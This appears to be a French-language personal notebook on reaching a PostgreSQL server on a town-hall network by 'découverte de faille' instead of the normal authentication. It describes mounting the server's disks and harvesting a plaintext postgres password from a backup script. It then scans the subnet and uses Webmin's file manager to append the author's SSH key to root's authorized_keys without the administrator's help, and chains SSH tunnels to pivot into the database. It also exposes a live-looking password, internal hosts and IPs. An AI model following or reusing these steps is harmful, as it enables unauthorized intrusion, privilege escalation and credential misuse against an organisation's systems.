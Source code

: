 # Se connecter au gestionnaire de base de données, sur la machine dsiappli39


## 1. Présentation

Le but est de se connecter, à partir d'un client linux, à la base postgresql qui est sous la machine dsiappli39, windows, configurée avec une authentification "spéciale windows".
on ne parle pas ici de la configuration kerberos.
on passe ici par une autre voie : la découverte de faille

## 2. Obtenir des infos de concernant la machine dsiappli39

### 2.1. Parcours du système de fichier
On monte les disques c et e de dsiappli39 dans notre système de fichier
sudo mkdir -p /mnt/dsiappli39
sudo vi /etc/fstab

### 2.2. Les découvertes

Deux informations importantes ont été découvertes

#### 2.2.1. Le fichier de configuration de postgresql
vi /mnt/dsiappli39/e/PostgreSQL/9.6/data/pg_hba.conf
pour les utilisateurs lambda, la methode est sspi
pour l'utilisateur postgres, il est possible de se connecter à partir des sous-reseaux
10.5.10.0/24
10.73.10.0/24
10.254.0.0/16

#### 2.2.2. Un script de sauvegarde
Ce script contient le mot de passe de l'utilisateur postgres
vi /mnt/dsiappli39/e/sauvegarde/sauvegarde_schema.bat
"""
rem Bonne pratique pour utiliser le mot de passe sans le voir en clair dans le script
rem edit %APPDATA%\postgresql\pgpass.conf
rem *:5432:*:username:password


rem Utilisation avec pgpass.conf
rem PGPASSWORD=password&& pg_dump -h host -p port -U username database > file.sql

set PGPASSWORD=YepYesh555+

rem dump global de la base
E:\PostgreSQL\9.6\bin\pg_dump.exe -U postgres -h localhost -d sig > E:\sauvegarde\dump\sig.sql
"""

#### 2.2.3. La stratégie
Nous pourrons donc nous connecter au serveur avec le compte postgres, mais à partir d'une machine d'un sous réseau autorisé


## 3. Rechercher une machine du sous reseau 10.254.140.x

Pourquoi ce sous réseau ?
dsiappli39 est dans le sous-reseau 10.254.140.x
blade05, pjpb, aul, ...

Pour info, une présentation des outils est donnée ici :
'''
https://linuxfrench.wordpress.com/2016/09/15/metasploitable-2-enumeration-reseau-avec-nmap/
'''

### 3.1. Zenmap
Pour parcourir le réseau, nous utiliserons l'outil zenmap
cible : 10.254.140.0/24
Après un long moment de scan, nous obtenons les machines qui sont sous linux, avec un serveur ssh.
il est possible de filtrer les machines hotes avec les mots clefs linux ou debian.

### 3.2. Les services ouverts sur les machines linux
Le port 22 (ssh) est ouvert mais aussi les ports 3389 (rdp) et 10000 (webmin)

Les tentatives de connexions par ssh sur l'une ou l'autre de ces machines se soldent par des échecs.
Pour pourvoir se connecter, il faut que notre machine et notre compte soient autorisés à se connecter en ssh.

Par contre, nous allons pouvoir nous connecter à l'interface webmin de ces machines

Nous allons nous concentrer sur la machine dsipgsql9test.mairie.fr, 10.254.140.125

## 4. Obtenir la possiblité de se connecter à une machine du sous-réseau 10.254.140.x
Pour pourvoir se connecter, il faut que notre machine et notre compte soient autorisés à se connecter en ssh, et pour obtenir cette autorisation, il faut :
- generer une paire de clef RSA
- copier la clef publique de cette paire, sur un serveur linux, dans un fichier contenant la liste des clefs autorisés à se connecter

### 4.1. Genérer la paire de clef
Il faut suivre les tuto qui sont ici, ou là :
http://www.linux-france.org/prj/edu/archinet/systeme/ch13s03.html

Sur notre machine, executer
ssh-keygen -t rsa

### 4.2. Recopie de la clef publique sur la machine dsipgsql9test.mairie.fr
#### 4.2.1. ssh-copy-id ne marche pas ici
La meilleure methode est d'uiliser ssh-copy-id, mais ici, ce n'est pas possible sans l'aide de l'administrateur...

#### 4.2.2. Recopie à l'aide de webmin
le contenu de la cle publique
cat ~/.ssh/id_rsa.pub

il faut recopier ce contenu dans le fichier qui s'appelle :
/root/.ssh/authorized_keys

le menu est donc accessible par ici :
https://dsipgsql9test.mairie.fr:10000/
Menu, Others,
puis, File Manager,

echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCo0dTjXO0wVtHv9U6lxWAzcxqHC5Ao14aCakDo1QzXy5wndZ6rEsb+rXXOTWczVWSyPHmnf57VVwIbALm54Soq/bRc81WNU53x8ZF3Q6mVq/QC7IoJkVGRj3gl59QfE1aGZye+faLvDTTnXQvmdZhNaFhvTiG59EoXQhhwdtvQxiLJCw7SBEfaw5f5Jk8pJGEsTwmcsAdDlB03LQCrZE/uF0HBUPRHifVqWcytOrRPdp7+m2yaJaIvidQ06Uun3fcT+hHORmcOQL+J5A0kh0BE1KgVpz+GZways/xkCfUs56UxNmi+rT0Wm421QT7BJrXJ+STFnjpe6AxAa0uQivhL fred@VLR6180Y" >> .ssh/authorized_keys

### 4.3. Test
Une fois que notre clef publique est installée, on peut se connecter en ssh entre vlr6180y et dsiappli58
Une fois sur dsiappli58, on peut se connecter au serveur postgresql qui est sur la machine dsiappli39
psql -h dsiappli39 -d sig -U postgres

## 5. Créer un tunnel
Le tunnel part de notre machine vlr6180y, et arrive jusqu'à la machine dsiappli39, en passant par une machine intermédiaire, la machine dsiappli58

### 5.1. La théorie
Sur la machine dsiappli58,
- on va créer un demi-tunnel (local) entre dsiappli58 et dsiappli39
- on va créer un demi-tunnel (remote) entre vlr6180y et dsiappli58

La création de ces demi-tunnels est automatisé grace au script
~/Documents/install/source/environnementTravail/ssh_open_host_dsi3.sh

### 5.2. La Pratique
Un script (pere) s'occupe d'envoyer sur dsiappli58 un second script (fils) et de lancer son execution
Ce script (pere) quii fait tout est :
~/Documents/install/source/environnementTravail/ssh_wake_dsi3.sh

### 5.3. Test
Depuis vlr6180y, connexion à postgresql sur la machine dsiappli39
tunnel : vlr6180y -> dsiappli58 -> dsiappli39

psql -h localhost -p 33292 -d sig -U postgres

Puis, après :
- ouverture du reseau : ./ssh_open_vlr6180y.sh
- connexion au reseau : ./ssh_connect_via.sh

On peut alors, se connecter
tunnel : tux0 -> cdalr -> vlr6180y -> dsiappli58 -> dsiappli39
psql -h localhost -p 62392 -d sig -U postgres
